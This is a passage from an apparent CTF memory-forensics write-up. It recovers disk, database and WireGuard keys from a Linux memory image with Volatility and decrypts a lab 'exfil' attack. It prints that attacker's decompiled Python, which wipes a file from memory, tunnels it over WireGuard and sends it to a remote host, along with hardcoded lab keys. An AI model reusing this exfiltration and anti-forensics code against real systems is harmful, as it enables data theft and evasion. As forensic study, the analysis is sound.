0x8a7281d6d030    a07347d7f2f8b1e1 7e19d239cf7aced4    .sG..... ~..9.z..
0x8a7281d6d040    71b1283745fb70dc 7e21506c392ed53e    q.(7E.p. ~!Pl9..>
0x8a7281d6d050    df50d397679a2999 0000000000000000    .P..g.). ........
0x8a7281d6d060    0000000000000000 0000000000000000    ........ ........
0x8a7281d6d070    0000000000000000 0000000000000000    ........ ........
```

We first read the length of the allocation, and then the key:

```python
[layer_name]> key_len = struct.unpack(
         ...:                 "Q", kernel_layer.read(key_t.payload.data[0] + 0x10, 8)
         ...:             )[0]

[layer_name]> key = kernel_layer.read(key_t.payload.data[0] + 0x18, key_len)

[layer_name]> key.hex()
Out[67]: '6d092b4dcb45c0141e5306b7e8ee39ceecb8cb4b4b75f6f4e1b1f8f2d74773a0d4ce7acf39d2197edc70fb453728b1713ed52e396c50217e99299a6797d350df'
```

* Master Volume Key: `6d092b4dcb45c0141e5306b7e8ee39ceecb8cb4b4b75f6f4e1b1f8f2d74773a0d4ce7acf39d2197edc70fb453728b1713ed52e396c50217e99299a6797d350df`

### Mounting and Decrypt LUKS2

We can use the following script to mount the RAW LUKS2 partition using `losetup` and the config constants we found above:

```sh
#!/usr/bin/env bash
# Mount a headerless (raw) dm-crypt/LUKS
#
# Usage: sudo ./mount_raw_luks.sh <disk_image> <mount_dir> [dm_name]

set -euo pipefail

CIPHER="serpent-xts-plain64"
VOL_KEY="6d092b4dcb45c0141e5306b7e8ee39ceecb8cb4b4b75f6f4e1b1f8f2d74773a0d4ce7acf39d2197edc70fb453728b1713ed52e396c50217e99299a6797d350df"
START_SECTOR=8192   # offset of data area, in 512-byte sectors
SECTOR_SIZE=2048    # logical sector size used for encryption (bytes)
IV_OFFSET=0

usage() {
    echo "Usage: sudo $0 <disk_image> <mount_dir> [dm_name]"
    exit 1
}

[[ $# -lt 2 ]] && usage
[[ $EUID -ne 0 ]] && { echo "[-] Must be run as root"; exit 1; }

DISK="$1"
MOUNT_DIR="$2"
DM_NAME="${3:-raw_luks}"

[[ ! -f "$DISK" && ! -b "$DISK" ]] && { echo "[-] Disk not found: $DISK"; exit 1; }

# If the input is a regular file, attach it as a loop device
LOOP_DEV=""
if [[ -f "$DISK" ]]; then
    LOOP_DEV=$(losetup --find --show --read-only "$DISK")
    echo "[*] Loop device   : $LOOP_DEV"
    BLOCK_DEV="$LOOP_DEV"
else
    BLOCK_DEV="$DISK"
fi

# Resolve size: prefer blockdev for block devices, fall back to stat
if [[ -b "$BLOCK_DEV" ]]; then
    DISK_BYTES=$(blockdev --getsize64 "$BLOCK_DEV")
else
    DISK_BYTES=$(stat -c%s "$DISK")
fi

# crypt_config.start is always in 512-byte sectors in the kernel
START_512=$START_SECTOR
TOTAL_512=$(( DISK_BYTES / 512 ))
LENGTH=$(( TOTAL_512 - START_512 ))

if [[ $LENGTH -le 0 ]]; then
    echo "[-] Computed length is non-positive ($LENGTH). Check START_SECTOR."
    exit 1
fi

echo "[*] Disk          : $DISK  ($DISK_BYTES bytes)"
echo "[*] Mount dir     : $MOUNT_DIR"
echo "[*] dm device     : /dev/mapper/$DM_NAME"
echo "[*] Cipher        : $CIPHER"
echo "[*] Sector size   : $SECTOR_SIZE bytes"
echo "[*] Data start    : $START_SECTOR (vol sectors) → $START_512 (512-byte sectors)"
echo "[*] Mapping length: $LENGTH  (512-byte sectors)"

# Remove stale mapping if it exists
if dmsetup info "$DM_NAME" &>/dev/null; then
    echo "[!] /dev/mapper/$DM_NAME already exists — removing it first"
    umount "/dev/mapper/$DM_NAME" 2>/dev/null || true
    dmsetup remove "$DM_NAME"
fi

# Build the dm-crypt target table:
#   <start> <length> crypt <cipher> <key> <iv_offset> <dev> <start_sector>
#   [<#opt_params> sector_size:<n>]
TABLE="0 $LENGTH crypt $CIPHER $VOL_KEY $IV_OFFSET $BLOCK_DEV $START_512 1 sector_size:$SECTOR_SIZE"

echo "[*] Creating dm-crypt mapping…"
echo "$TABLE" | dmsetup create "$DM_NAME"

# Give udev a moment to settle
sleep 0.5

echo "[*] /dev/mapper/$DM_NAME created"

mkdir -p "$MOUNT_DIR"

mount -t ext4 -o ro "/dev/mapper/$DM_NAME" "$MOUNT_DIR"
echo "[+] Mounted at $MOUNT_DIR"

echo ""
echo "To unmount:"
if [[ -n "$LOOP_DEV" ]]; then
    echo "  sudo umount $MOUNT_DIR && sudo dmsetup remove $DM_NAME && sudo losetup -d $LOOP_DEV"
else
    echo "  sudo umount $MOUNT_DIR && sudo dmsetup remove $DM_NAME"
fi
```

After mounting, we can explore the data:

```bash
$ ls -R mnt/
drwxr-xr-x - root root 28 Jun 00:58  pyz
drwxr-xr-x - root root 25 Jun 17:21  secure_cb

mnt/pyz:
.rwxr-x--- 16M root root 28 Jun 00:58 󰡯 exfil

mnt/secure_cb:
drwxr-xr-x    - root root             29 May 00:16 󰣞 src
.rw-r--r-- 108k root root             29 May 15:38  Cargo.lock
.rw-r--r--  719 root root             29 May 15:38  Cargo.toml
.rwxr-xr-x  36M root root             25 Jun 15:11 󰡯 serpent_db
.rwxrwx---  14M root systemd-timesync 25 Jun 16:37  serpent_source.zip

mnt/secure_cb/src:
.rw-r--r-- 10k root root 25 Jun 15:08  main.rs
```

We find the `exfil` binary we saw in the beginning, among another project the malicious actors have been working on! Let's start with the Rust project!


## The Secure Keyring

The project begins by reading the `boot_id` from `/proc/sys/kernel/random/boot_id`, and using that to seed an Argon2 KDF!

```rs
fn main() -> Result<()> {
    let cli = Cli::parse();

    // 1. Get boot_id
    let boot_id = get_boot_id()?;

    // 2. Derive key (costly PKDF)
    let key = derive_key(&boot_id)?;
    [...]
}

const BOOT_ID_PATH: &str = "/proc/sys/kernel/random/boot_id";
const SALT: &[u8] = b"serpent_secure_salt_2026"; // Fixed salt for deterministic boot-bound key

fn get_boot_id() -> Result<String> {
    fs::read_to_string(BOOT_ID_PATH)
        .context("Failed to read boot_id. This tool requires a Linux system with /proc/sys/kernel/random/boot_id")
        .map(|s| s.trim().to_string())
}

fn derive_key(boot_id: &str) -> Result<SecureKey> {
    // High cost parameters for Argon2id: 256MB memory, 4 iterations
    let params = Params::new(262144, 4, 4, Some(32))
        .map_err(|e| anyhow::anyhow!("Invalid Argon2 params: {}", e))?;

    let argon2 = Argon2::new(argon2::Algorithm::Argon2id, argon2::Version::V0x13, params);

    let mut key_bytes = [0u8; 32];
    argon2
        .hash_password_into(boot_id.as_bytes(), SALT, &mut key_bytes)
        .map_err(|e| anyhow::anyhow!("KDF failed: {}", e))?;

    Ok(SecureKey(Zeroizing::new(key_bytes)))
}
```

### Finding the Key

`linux.pagecache.Files` reports the above file:

```
17127:0x8a72855dd800    /proc   0:24    157228  0x8a7284d882f8  REG     0       0       -r--r--r--      2026-06-27 23:16:12.000000 UTC  2026-06-27 23:16:12.000000 UTC  2026-06-27 23:16:12.000000 UTC  /proc/sys/kernel/random/boot_id     0
```

However when we dump it, it's empty. However, since this is a runtime 'variable' it must exist somewhere within the Kernel!

The `boot_id` is exported under the `sysctl_bootid` symbol!

```python
[layer_name]> boot_id = vmlinux.object_from_symbol(symbol_name="sysctl_bootid")
[layer_name]> raw_uuid = kernel_layer.read(boot_id.vol.offset, 16)
[layer_name]> boot_id_string = str(uuid.UUID(bytes=raw_uuid))
[layer_name]> boot_id_string
Out[73]: '710d1eb0-9a77-4c9c-a148-a8dd002d8755'
```

We then can use the `low_level` `argon2` bindings to derive the key:

```python
import argon2.low_level as _al

def derive_argon_key(boot_id: str) -> bytes:
    MEMORY_COST = 262144  # KiB
    TIME_COST = 4
    PARALLELISM = 4
    HASH_LEN = 32
    VERSION = 19
    SALT = b"serpent_secure_salt_2026"

    return _al.hash_secret_raw(
        secret=boot_id.encode(),
        salt=SALT,
        time_cost=TIME_COST,
        memory_cost=MEMORY_COST,
        parallelism=PARALLELISM,
        hash_len=HASH_LEN,
        type=_al.Type.ID,
        version=VERSION,
    )
```

The `init` command initializes an `sqlite3` database with the derived key at `/tmp/serpent.db`:

```rs
const DB_PATH: &str = "/tmp/serpent.db";

fn init_db(key: &SecureKey) -> Result<()> {
    if Path::new(DB_PATH).exists() {
        fs::remove_file(DB_PATH).context("Failed to scrap existing database")?;
    }

    let conn = Connection::open(DB_PATH)?;
    let key_hex = hex::encode(&*key.0);
    let key_value = format!("x'{}'", key_hex);

    conn.pragma_update(None, "key", &key_value)
        .context("Failed to set encryption key via pragma during init")?;

    conn.execute(
        "CREATE TABLE IF NOT EXISTS records (
            name TEXT PRIMARY KEY,
            value TEXT NOT NULL
        )",
        [],
    )?;

    println!("Database initialized and encrypted with boot-bound key.");
    Ok(())
}
```

Let's try dumping it:

```bash
$ vol -f memory.elf -s syms linux.pagecache.InodePages --inode 0x8a72cf7f6a98 --dump
Volatility 3 Framework 2.28.1
Progress:  100.00               Stacking attempts finished
PageVAddr       PagePAddr       MappingAddr     Index   DumpSafe        Flags   Output File
WARNING  volatility3.framework.interfaces.plugins: File inode_0x8a72cf7f6a98.dmp could not be written: StructType has no attribute: symbol_table_name1!page.index
Traceback (most recent call last):
  File "/Users/canopus/Desktop/ca_insane/.venv/bin/vol", line 10, in <module>
    sys.exit(main())
             ~~~~^^
  File "/Users/canopus/Desktop/ca_insane/.venv/lib/python3.14/site-packages/volatility3/cli/__init__.py", line 938, in main
    CommandLine().run()
    ~~~~~~~~~~~~~~~~~^^
  File "/Users/canopus/Desktop/ca_insane/.venv/lib/python3.14/site-packages/volatility3/cli/__init__.py", line 526, in run
    renderer.render(grid)
    ~~~~~~~~~~~~~~~^^^^^^
  File "/Users/canopus/Desktop/ca_insane/.venv/lib/python3.14/site-packages/volatility3/cli/text_renderer.py", line 330, in render
    grid.populate(visitor, outfd)
    ~~~~~~~~~~~~~^^^^^^^^^^^^^^^^
  File "/Users/canopus/Desktop/ca_insane/.venv/lib/python3.14/site-packages/volatility3/framework/renderers/__init__.py", line 318, in populate
    for level, item in self._generator:
                       ^^^^^^^^^^^^^^^
  File "/Users/canopus/Desktop/ca_insane/.venv/lib/python3.14/site-packages/volatility3/framework/plugins/linux/pagecache.py", line 399, in format_fields_with_headers
    for level, fields in generator:
                         ^^^^^^^^^
  File "/Users/canopus/Desktop/ca_insane/.venv/lib/python3.14/site-packages/volatility3/framework/plugins/linux/pagecache.py", line 634, in _generator
    self.write_inode_content_to_file(
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~^
        self.context, vmlinux_layer.name, inode, filename, open_method
        ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    )
    ^
  File "/Users/canopus/Desktop/ca_insane/.venv/lib/python3.14/site-packages/volatility3/framework/plugins/linux/pagecache.py", line 493, in write_inode_content_to_file
    cls.write_inode_content_to_stream(context, layer_name, inode, file_obj)
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/Users/canopus/Desktop/ca_insane/.venv/lib/python3.14/site-packages/volatility3/framework/plugins/linux/pagecache.py", line 526, in write_inode_content_to_stream
    for page_idx, page_content in inode.get_contents():
                                  ~~~~~~~~~~~~~~~~~~^^
  File "/Users/canopus/Desktop/ca_insane/.venv/lib/python3.14/site-packages/volatility3/framework/symbols/linux/extensions/__init__.py", line 2662, in get_contents
    page_index = int(page_obj.index)
                     ^^^^^^^^^^^^^^
  File "/Users/canopus/Desktop/ca_insane/.venv/lib/python3.14/site-packages/volatility3/framework/objects/__init__.py", line 993, in __getattr__
    raise AttributeError(
        f"{agg_name} has no attribute: {self.vol.type_name}.{attr}"
    )
AttributeError: StructType has no attribute: symbol_table_name1!page.index
```

However, we hit a volatility issue. It seems that volatility has trouble parsing the `page` object, let's search in volatility's GitHub Issues. We find [#1943](https://github.com/volatilityfoundation/volatility3/issues/1943). It seems that it's a simple attribute [rename](https://lists.openwall.net/linux-kernel/2025/05/14/1508) in newer kernels. Let's try adding the patch:

```python
# volatility3/framework/symbols/linux/extensions/__init__.py
@property
def index(self):
    if hasattr(self, "__folio_index"):
        return int(self.__folio_index)
    else:
        return int(self.index)
```

Trying to run again, we have another error:

```python
File "/Users/canopus/Desktop/ca_insane/.venv/lib/python3.14/site-packages/volatility3/framework/symbols/linux/extensions/__init__.py", line 2829, in get_flags_list
  if self.flags & (1 << value) != 0:
     ~~~~~~~~~~~^~~~~~~~~~~~~~
TypeError: unsupported operand type(s) for &: 'StructType' and 'int'
```

However the inode is being dumped successfully! We open the database in a DB viewer and we find the first part of the flag!



## The Kernel Keyring (Part 2)

The other functionality of this project is storing and retrieving data from the kernel keyring encrypting them with ChaCha20:

```rs
match action {
    KeyringAction::Set {
        mut name,
        mut value,
    } => {
        let entry = keyring_core::Entry::new("serpent", &name)?;

        // 1. Setup ChaCha20Poly1305 with the derived boot-bound key
        let cipher = ChaCha20Poly1305::new((&*key.0).into());

        // 2. Generate a random nonce
        use chacha20poly1305::aead::OsRng;
        use chacha20poly1305::aead::rand_core::RngCore;
        let mut nonce_bytes = [0u8; 12];
        OsRng.fill_bytes(&mut nonce_bytes);
        let nonce = Nonce::from_slice(&nonce_bytes);

        // 3. Encrypt the value
        let mut ciphertext = cipher
            .encrypt(nonce, value.as_bytes())
            .map_err(|e| anyhow::anyhow!("Encryption failed: {}", e))?;

        // 4. Combine nonce + ciphertext
        let mut combined = Vec::with_capacity(nonce_bytes.len() + ciphertext.len());
        combined.extend_from_slice(&nonce_bytes);
        combined.extend_from_slice(&ciphertext);

        // 5. Encode in Base64
        let encoded = general_purpose::STANDARD.encode(&combined);

        // 6. Store in keyring
        entry.set_password(&encoded)?;
        println!("Key '{}' encrypted and set in keyring.", name);

        name.zeroize();
        value.zeroize();
        ciphertext.zeroize();
        combined.zeroize();
    }
```

We can use the same logic as before, but change the description statement to match `serpent` instead of `cryptsetup`:

```python
def grab_enc_part_2(ctx, kernel, kernel_layer):
    key_serial_tree = kernel.object_from_symbol("key_serial_tree")

    for node in key_serial_tree.get_nodes():
        key_t = linux.LinuxUtilities.container_of(node, "key", "serial_node", kernel)

        descr = utility.address_to_string(ctx, "layer_name", key_t.description, 36)

        if "serpent" in descr:
            flag_len = struct.unpack(
                "Q", kernel_layer.read(key_t.payload.data[0] + 0x10, 8)
            )[0]

            return kernel_layer.read(key_t.payload.data[0] + 0x18, flag_len)
```

And we decrypt with `ChaCha20` as so (since the key is the same as the database):

```python
def decrypt_part_2(enc_part_2: str, key: bytes) -> str:
    combined = base64.b64decode(enc_part_2)

    if len(combined) < 12:
        raise ValueError(
            "Ciphertext data is too short to contain a valid 12-byte nonce."
        )

    # 2. Split into 12-byte nonce and payload
    nonce = combined[:12]
    ciphertext = combined[12:]

    # 3. Decrypt using ChaCha20Poly1305
    chacha = ChaCha20Poly1305(key)
    decrypted_bytes = chacha.decrypt(nonce, ciphertext, associated_data=None)

    return decrypted_bytes.decode("utf-8")
```

## Exfiltration

We now turn our attention to `pyz/exfil`:

If we take a look in the bundled `strings` we find many references to Python; this must be a pyinstaller binary. Let's extract it using [pyinstxtractor](https://github.com/pyinstxtractor/pyinstxtractor-ng). Also there is a [`pycdc` PR](https://github.com/zrax/pycdc/pull/605) that adds some more support for Python 3.13, so we'll have to use that one to have a better decompile output:

```python
./pycdc ../../exfil_extracted/exfil.pyc -v 3.13
# Source Generated with Decompyle++
# File: exfil.pyc (Python 3.13)

import ctypes
import hashlib
import os
import socket
import struct
import sys
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
WG_IF_NAME = 'enp12s01'
WG_CLIENT_PRIVATE_KEY = 'GPXmuw+xS8WjAzjPvkECvLGd2iSRwcjFP+OWPbNzsUY='
WG_CLIENT_ADDRESS = '10.0.0.2/24'
WG_SERVER_PUBLIC_KEY = '34P8Lh/ROgOdv7ciFVw1BCfBlvn2H0TBuDpCd8FZaHE='
WG_SERVER_ENDPOINT = '192.168.56.1'
WG_SERVER_PORT = 51829
WG_LISTEN_PORT = 51820
HARDCODED_SECRET = b'https://www.youtube.com/watch?v=oHafFDkFgeg'
FILE_PATH = '/root/dummy.pdf'
SEND_DST = ('10.0.0.1', 9999)
libc = ctypes.CDLL('libc.so.6', use_errno = True)

def purge_file_cache(path):
    fd = os.open(path, os.O_RDONLY)
    os.fsync(fd)
    os.sync()
    size = os.fstat(fd).st_size
    os.posix_fadvise(fd, 0, size, os.POSIX_FADV_DONTNEED)
    os.close(fd)
    return None
    os.close(fd)


def secure_wipe(addr, nbytes):
    libc.memset(ctypes.c_void_p(addr), 0, ctypes.c_size_t(nbytes))
    libc.memset(ctypes.c_void_p(addr), 170, ctypes.c_size_t(nbytes))
    libc.memset(ctypes.c_void_p(addr), 85, ctypes.c_size_t(nbytes))
    libc.memset(ctypes.c_void_p(addr), 0, ctypes.c_size_t(nbytes))


def create_wireguard_interface():
    NDB = NDB
    WireGuard = WireGuard
    import pyroute2
    ndb = NDB()
    link = ndb.interfaces.create(kind = 'wireguard', ifname = WG_IF_NAME)
    link.add_ip(WG_CLIENT_ADDRESS)
    link.set(state = 'up')
    None(None, None)
    None(None, None)
    wg = WireGuard()
    peer = {
        'public_key': WG_SERVER_PUBLIC_KEY,
        'endpoint_addr': WG_SERVER_ENDPOINT,
        'endpoint_port': WG_SERVER_PORT,
        'persistent_keepalive': 25,
        'allowed_ips': [
            '0.0.0.0/0'] }
    wg.set(WG_IF_NAME, private_key = WG_CLIENT_PRIVATE_KEY, listen_port = WG_LISTEN_PORT, peer = peer)
    return None
    with None:
        if not unsupported_condition:
            pass
    continue
    with None:
        if not unsupported_condition:
            pass
    continue
# WARNING: Decompyle incomplete


def encrypt_and_wipe_plaintext(buf):
    key = hashlib.sha256(HARDCODED_SECRET).digest()
    nonce = os.urandom(12)
    aesgcm = AESGCM(key)
    ct = aesgcm.encrypt(nonce, buf, None)
    buf_addr = (ctypes.c_ubyte * len(buf)).from_buffer(buf)
    secure_wipe(ctypes.addressof(buf_addr), len(buf))
    return nonce + ct


def run():
Warning: Stack history is not empty!
Warning: block stack is not empty!
    if os.geteuid() != 0:
        print('must be root', file = sys.stderr)
    sys.exit(1)
    if not os.path.exists(FILE_PATH):
        print(f'''not found: {FILE_PATH}''', file = sys.stderr)
    sys.exit(1)
    print('[*] reading file into mutable buffer ...')
    f = open(FILE_PATH, 'rb')
    buf = bytearray(f.read())
    None(None, None)
    print('[*] purging page cache ...')
    purge_file_cache(FILE_PATH)
    print('[*] creating wireguard interface ...')
    create_wireguard_interface()
    print('[*] encrypting & wiping plaintext from memory ...')
    payload = encrypt_and_wipe_plaintext(buf)
    del buf
    libc.malloc_trim(0)
    print('[*] purging page cache again ...')
    purge_file_cache(FILE_PATH)
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(10)

    try:
        sock.connect(SEND_DST)
        sock.sendall(struct.pack('!I', len(payload)))
        sock.sendall(payload)
        print(f'''sent {len(payload)} encrypted bytes to {SEND_DST}''')
        sock.close()
        print('[+] done')
        return None
        with None:
            if not unsupported_condition:
                pass

    continue
    sock.close()

    try:
        pass
    except:
        pass

# WARNING: Decompyle incomplete

if __name__ == '__main__':
    run()
return None
```

The important parts here are the `create_wireguard_interface()` and `encrypt_and_wipe_plaintext()` functions! 

The first one will add `enp12s01` as a Wireguard interface and initialize a tunnel to `192.168.56.1` while the latter will encrypt `/root/dummy.pdf` and exfiltrate it over the wireguard tunnel!

In order to decrypt the traffic (resulting in TCP traffic), we will have to retrieve the Wireguard keys from memory, specifically the `sending` key.

### Adding the Wireguard symbol tables & retrieving the keys

Much like in the `Device Mapper` part, we should add the debug symbol for the `wireguard.ko` module in volatility. The debug version exists at `linux-image-unsigned-7.0.0-22-generic-dbgsym_7.0.0-22.22_amd64/usr/lib/debug/lib/modules/7.0.0-22-generic/kernel/drivers/net/wireguard/wireguard.ko.zst`, and the procedure is the same as before.

We begin by listing all of the interface with their addresses:

```python
def list_inet_devs(ctx, kernel, kernel_layer):
    """List inet network devices."""

    init_net = kernel.object_from_symbol("init_net")
    devs = init_net.dev_base_head.to_list(
        kernel.symbol_table_name + "!net_device", "dev_list"
    )
    for dev in devs:
        name = utility.array_to_string(dev.name)
        status(f"if: {name} @ {hex(dev.vol.offset)}")
```

After finding the address of device `enp12s01` we can then create an object of type `net_device` on that address and then cast the `.priv` attribute of it into a `wg_device` (Remember, we already have those symbols):

```python
(layer_name) >>> wg_dev = self.context.object(object_type=f"{wg_table_name}!wg_device", layer_name="layer_name", offset=wg.priv.vol.offset)
(layer_name) >>> dt(wg_dev)
wireguard.ko1!wg_device (1344 bytes) @ 0x8a7297287ac0:
    0x0 :   dev                      *wireguard.ko1!net_device               0x8a7297287000
   0x40 :   encrypt_queue            wireguard.ko1!crypt_queue               offset: 0x8a7297287b00
  0x140 :   decrypt_queue            wireguard.ko1!crypt_queue               offset: 0x8a7297287c00
  0x240 :   handshake_queue          wireguard.ko1!crypt_queue               offset: 0x8a7297287d00
  0x340 :   sock4                    *wireguard.ko1!sock                     0x8a7335c6d940
  0x348 :   sock6                    *wireguard.ko1!sock                     0x8a733555a840
  0x350 :   creating_net             *wireguard.ko1!net                      0xffffbec745c0
  0x358 :   static_identity          wireguard.ko1!noise_static_identity     offset: 0x8a7297287e18
  0x3c8 :   packet_crypt_wq          *wireguard.ko1!workqueue_struct         0x8a7281de7000 (unknown sized workqueue_struct)
  0x3d0 :   handshake_receive_wq     *wireguard.ko1!workqueue_struct         0x8a729ddc1e00 (unknown sized workqueue_struct)
  0x3d8 :   handshake_send_wq        *wireguard.ko1!workqueue_struct         0x8a72a108dc00 (unknown sized workqueue_struct)
  0x3e0 :   cookie_checker           wireguard.ko1!cookie_checker            offset: 0x8a7297287ea0
  0x478 :   peer_hashtable           *wireguard.ko1!pubkey_hashtable         0xcd4746119000
  0x480 :   index_hashtable          *wireguard.ko1!index_hashtable          0x8a72971a0000
  0x488 :   peer_allowedips          wireguard.ko1!allowedips                offset: 0x8a7297287f48
  0x4a0 :   device_update_lock       wireguard.ko1!mutex                     offset: 0x8a7297287f60
  0x4c0 :   socket_update_lock       wireguard.ko1!mutex                     offset: 0x8a7297287f80
  0x4e0 :   device_list              wireguard.ko1!list_head                 offset: 0x8a7297287fa0
  0x4f0 :   peer_list                wireguard.ko1!list_head                 offset: 0x8a7297287fb0
  0x500 :   handshake_queue_len      wireguard.ko1!atomic_t                  offset: 0x8a7297287fc0
  0x504 :   num_peers                wireguard.ko1!unsigned int              1
  0x508 :   device_update_gen        wireguard.ko1!unsigned int              2
  0x50c :   fwmark                   wireguard.ko1!unsigned int              0
  0x510 :   incoming_port            wireguard.ko1!short unsigned int        51820
```

A wireguard device can talk at the same time with many different peers, each one with a different key negotiation! We first have to parse `.peer_list` in order to view (and isolate) each peer:

```python
[layer_name]> peers = wg_dev.peer_list.to_list(wg_table_name + "!wg_peer", "peer_list")
---------------------------------------------------------------------------
AttributeError                            Traceback (most recent call last)
Cell In[11], line 1
----> 1 peers = wg_dev.peer_list.to_list(wg_table_name + "!wg_peer", "peer_list")

File ~/.local/share/uv/tools/volatility3/lib/python3.14/site-packages/volatility3/framework/objects/__init__.py:993, in AggregateType.__getattr__(self, attr)
    991     if isinstance(self, agg_type):
    992         agg_name = agg_type.__name__
--> 993 raise AttributeError(
    994     f"{agg_name} has no attribute: {self.vol.type_name}.{attr}"
    995 )

AttributeError: StructType has no attribute: wireguard.ko1!list_head.to_list
```

We have an issue here, where the attribute `peer_list` does not have the method `.to_list()` which is odd, since volatility contains this abstraction for `list_head` objects:

```python
class list_head(objects.StructType, collections.abc.Iterable):
    def to_list(
        self,
        symbol_type: str,
        member: str,
        forward: bool = True,
        sentinel: bool = True,
        layer: Optional[str] = None,
    ) -> Iterator[interfaces.objects.ObjectInterface]:
        """Returns an iterator of the entries in the list.

        Args:
                symbol_type: Type of the list elements
                member: Name of the list_head member in the list elements
                forward: Set false to go backwards
                sentinel: Whether self is a "sentinel node", meaning it is not embedded in a member of the list
                Sentinel nodes are NOT yielded. See https://en.wikipedia.org/wiki/Sentinel_node for further reference
                layer: Name of layer to read from
        Yields:
            Objects of the type specified via the "symbol_type" argument.

        """
        layer_name = layer or self.vol.layer_name
[...]
```

However, the issue here is that, **the complete** type of the attribute is not just `list_head`, it's `wireguard.ko1!list_head.to_list`, and that does not hold up in our case; we need to cast it into `symbol_table_name1!list_head` before we can use volatility's abstractions!

```python
[layer_name]> wg_peer_list_head = wg_dev.peer_list.cast(vmlinux.symbol_table_name + "!list_head")
[layer_name]> peers = wg_peer_list_head.to_list(wg_table_name + "!wg_peer", "peer_list")
```

Every peer is identified by their _public_ key, a 32-byte value, which lives in `peer.handshake.remote_static`:

```python
[layer_name]> for peer in peers:
         ...:         remote_static = kernel_layer.read(peer.handshake.remote_static.vol.offset, 32)
         ...:         print(f"Peer: {base64.b64encode(remote_static).decode()}")
         ...:
Peer: 34P8Lh/ROgOdv7ciFVw1BCfBlvn2H0TBuDpCd8FZaHE=
```

The resulting public key matches the hardcoded value we found in the python decompilation `WG_SERVER_PUBLIC_KEY` earlier.

The keypairs (sending/receiving) are under `peer.keypairs`:

```python
[layer_name]> dt(peer.keypairs)
wireguard.ko1!noise_keypairs (32 bytes) @ 0x8a72893cedf8:
   0x0 :   current_keypair         *wireguard.ko1!noise_keypair     0x8a728988d800
   0x8 :   previous_keypair        *wireguard.ko1!noise_keypair     0x0 (null pointer)
  0x10 :   next_keypair            *wireguard.ko1!noise_keypair     0x0 (null pointer)
  0x18 :   keypair_update_lock     wireguard.ko1!spinlock_t         offset: 0x8a72893cee10

[layer_name]> dt(peer.keypairs.current_keypair)
wireguard.ko1!pointer (8 bytes) @ 0x8a72893cedf8 -> 0x8a728988d800
    wireguard.ko1!noise_keypair (1216 bytes) @ 0x8a728988d800:
        0x0 :   entry                  wireguard.ko1!index_hashtable_entry      offset: 0x8a728988d800
       0x20 :   sending                wireguard.ko1!noise_symmetric_key        offset: 0x8a728988d820
       0x50 :   sending_counter        wireguard.ko1!atomic64_t                 offset: 0x8a728988d850
       0x58 :   receiving              wireguard.ko1!noise_symmetric_key        offset: 0x8a728988d858
       0x88 :   receiving_counter      wireguard.ko1!noise_replay_counter       offset: 0x8a728988d888
      0x498 :   remote_index           wireguard.ko1!unsigned int               2782892632
      0x49c :   i_am_the_initiator     wireguard.ko1!_Bool                      1
      0x4a0 :   refcount               wireguard.ko1!kref                       offset: 0x8a728988dca0
      0x4a8 :   rcu                    wireguard.ko1!callback_head              offset: 0x8a728988dca8
      0x4b8 :   internal_id            wireguard.ko1!long long unsigned int     5


```

Wireguard key negotiations are not that simple; they are rotated quite quickly! If we are to decrypt traffic, we have to correlate the indexes with the packets:

```python
[layer_name]> dt(peer.keypairs.current_keypair.entry.index)
 wireguard.ko1!unsigned int (4 bytes): 1154116610

[layer_name]> hex(1154116610)
Out[33]: '0x44ca6c02'
```



The `Sender` field matches the `index` attribute in our `entry`. This means the current `sending` key can be used to decrypt the traffic!

```python
[layer_name]> dt(peer.keypairs.current_keypair.sending)
wireguard.ko1!noise_symmetric_key (48 bytes) @ 0x8a728988d820:
   0x0 :   key           wireguard.ko1!array                      ['45', '61', '25', '63', '56', '137', '213', '62', '157', '23', '136', '226', '251', '66', '88', '157', '43', '83', '144', '162', '22', '12', '6', '27', '170', '101', '41', '230', '218', '29', '162', '28']
  0x20 :   birthdate     wireguard.ko1!long long unsigned int     886763707558
  0x28 :   is_valid      wireguard.ko1!_Bool                      1

[layer_name]> sending_key = kernel_layer.read(
         ...:                 peer.keypairs.current_keypair.sending.key.vol.offset, 32
         ...:             )

[layer_name]> print(sending_key.hex())
2d3d193f3889d53e9d1788e2fb42589d2b5390a2160c061baa6529e6da1da21c
```

### Decrypting Wireguard

We can decrypt the packets using the following python snippet:

```python
def decrypt_wg_pcap(pcap_path: str, key: bytes) -> List[bytes]:
    """Decrypt every WireGuard transport frame in a pcap with the carved key.

    WireGuard transport layout:
      1B type(0x04) | 3B reserved | 4B receiver_index (LE) | 8B counter (LE)
      | ciphertext + 16B Poly1305 tag

    AEAD is ChaCha20-Poly1305 with nonce = b'\\x00'*4 + counter (LE u64) and no
    additional data. Returns the inner plaintext IP packets in capture order
    (empty keepalives skipped). Adapted from wg_decrypt.py.
    """
    from scapy.all import UDP, rdpcap

    WG_TYPE_TRANSPORT = 0x04
    WG_HEADER_LEN = 16  # type(1) + reserved(3) + receiver_index(4) + counter(8)
    TAG_LEN = 16

    aead = ChaCha20Poly1305(key)
    pkts = rdpcap(pcap_path)
    status(f"{pcap_path}: {len(pkts)} frames total")

    inner_packets: List[bytes] = []
    ok = fail = 0
    for pkt in pkts:
        if UDP not in pkt:
            continue
        payload = bytes(pkt[UDP].payload)
        if len(payload) < WG_HEADER_LEN + TAG_LEN or payload[0] != WG_TYPE_TRANSPORT:
            continue

        (counter,) = struct.unpack_from("<Q", payload, 8)
        ct_and_tag = payload[WG_HEADER_LEN:]
        nonce = b"\x00" * 4 + struct.pack("<Q", counter)
        try:
            plaintext = aead.decrypt(nonce, ct_and_tag, None)
        except Exception:
            fail += 1
            continue

        ok += 1
        if plaintext:  # skip keepalives (empty inner payload)
            inner_packets.append(plaintext)

    status(f"WireGuard: {ok} transport frames decrypted, {fail} failed")
    return inner_packets
```

The result will be a list of the inner packets, which we know are TCP. The following snippet will reassemble the complete `payload` part of each packet, leaving us with the encrypted pdf that was exfiltrated:

```python
def reassemble(inner_packets: List[bytes]) -> bytes:
    segments: dict[int, tuple[bytes, str]] = {}  # seq -> (payload, flags)
    for pkt in inner_packets:
        try:
            pkt = IP(pkt)
        except Exception:
            continue
        if TCP not in pkt:
            continue
        t = pkt[TCP]
        payload = bytes(t.payload)
        if not payload:
            continue
        seq = t.seq
